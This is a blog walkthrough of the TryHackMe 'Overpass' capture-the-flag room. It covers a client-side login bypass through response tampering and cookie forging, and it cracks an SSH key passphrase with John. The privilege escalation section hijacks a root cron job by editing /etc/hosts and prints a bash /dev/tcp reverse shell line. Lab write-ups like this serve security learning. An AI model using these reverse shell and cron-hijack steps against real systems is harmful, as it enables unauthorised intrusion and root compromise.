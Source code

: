 ```yaml
---
layout: post
published: true
title: "TryHackMe - Overpass | Walkthrough"
date: 2020-07-24 14:32:20 +0300
description: Overpass room of Tryhackme | Writeups.
excerpt: "Walkthrough of Overpass room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/overpass/overpass.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-24
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >Overpass - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “Overpass.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/overpass).
>

## Enumeration
--

<h3>Nmap</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.

Simultaneously starting nikto scan till then but got nothing unusual.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nikto.png)

Moving to the main website:-

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/website.png)

This shows a normal webpage with some information about overpass password manager.There are only two pages linked with homepage which seems usual,so starting a directory scan.

<h3>Dirsearch Scan</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/dirsearch.png)

Directory scanning showed many pages but /admin/ seems interesting.

<h3>Logging In via Broken Authentication</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/adminpage.png)

Now no clue on credentials, also brute-forcing is not the solution as mentioned in the hint.

Just enumerating the files associated with the source code shows us an exciting file named login.js containing the function used in the login form on the /admin page.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logincode.png)

The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds take the credentials, and variable response sends them to /api/login for validation, and the statusOrCookie variable takes the response. Till here, everything seems perfect now in the Conditional statement; it checks if the response from the server is "Incorrect Credentials" then it will not allow access otherwise, it will set a cookie named "SessionToken" to statusOrCookie and redirect us to the admin panel. Here lies the vulnerability as a user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server into running the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/burp1.png)


Now, as we want to change the response, not the request so choosing Action > Do intercept > Response to the request.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/doresponse.png)

Forwarding the request to get the response:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/response1.png)

We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get the access.<br>
Wow! we got access to the page without the credentials.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/loggedin.png)

<h3><b>BONUS</b></h3>
--

There is an alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/cookie.png)

Refresh the page to successfully logging in.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logged_via_cookie.png)


Now Moving to page provides majorly 2 information:
``` 
	1.There is a user name james.
	2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/ssh_fail.png)

OHH!! It is asking for the passphrase for the provided key. As No passphrase is found.Now bruteforing is the only option.
using <b>ssh2john.py</b> to convert to hash that john can crack using rockyou.txt

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/johncrack.png)

It successfully found the passphrase that is <b>james13</b>. Now we can log in via SSH.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/james_ssh_success.png)

Get the user flag and submit.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag1.png)


<h3>Privilege Escalation</h3>

This part is really interesting as none of the manual methods worked.
``` 
	1.Can't run sudo -l as don't know james password.
	2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh initially not helped until I saw the room tag mentioned "cron".

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/root_curl.png)

User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/etc.png)

Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "overpass.thm" as hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.

Lets do this practically:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/python_server.png)

```
	1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
	2. Make the same directory as "/downloads/src/buildscript.sh" 
	3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
	4.Now start a netcat listener locally to which the Box will connect.
	5. At last replace the IP of the /etc/hosts of overpass.thm to our own connecting IP.
	6. All done now wait a few seconds till it connects back to us via nc listener due to cronjob assigned.

```

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag2.png)

Finally, We got a connection from the Box as ROOT. It was really a nice room containing many fundamentals,an I enjoyed soving it and writing its walkthrough.





<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>
